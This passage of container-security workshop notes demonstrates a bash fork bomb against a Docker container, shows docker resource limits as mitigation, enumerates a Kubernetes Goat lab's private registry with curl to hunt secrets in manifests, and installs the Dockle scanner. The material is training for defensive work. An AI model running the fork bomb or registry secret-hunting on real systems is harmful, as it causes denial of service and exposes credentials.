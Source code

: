 ### DoSing the container - Fork bomb

**DO NOT RUN IN ON YOUR COMPUTER EVER. RUN IN KILLERCODA ONLY**

```bash
:(){ :|:& };:
```

We will do this on killercoda! Get ready to crash your system.

```bash
docker run --name unlimited --rm -it ubuntu bash
docker stats unlimited
```

```bash
docker run --name withlimits --rm -m 0.5Gi --cpus 0.8 -it ubuntu bash
docker stats withlimits
```

### Private registry

Another scenario is kubernetes goat!

Attacking private registry - http://127.0.0.1:1235

You can use tools like dirbuster/gobuster to brute force the list of pages

https://docs.docker.com/registry/spec/api/


```bash
URL="http://127.0.0.1:1235"
curl $URL/v2/
# List all repositories
curl $URL/v2/_catalog
# Get manifest of specific image
curl $URL/v2/madhuakula/k8s-goat-users-repo/manifests/latest
# Try to look for sensitive information in the results
curl $URL/v2/madhuakula/k8s-goat-users-repo/manifests/latest | grep -i env
```

### Dockle

https://github.com/goodwithtech/dockle

**Installation**

```bash
VERSION=$(
 curl --silent "https://api.github.com/repos/goodwithtech/dockle/releases/latest" | \
 grep '"tag_name":' | \
 sed -E 's/.*"v([^"]+)".*/\1/' \
) && curl -L -o dockle.deb https://github.com/goodwithtech/dockle/releases/download/v${VERSION}/dockle_${VERSION}_Linux-64bit.deb
sudo dpkg -i dockle.deb && rm dockle.deb
```

```bash
dockle madhuakula/k8s-goat-users-repo
```
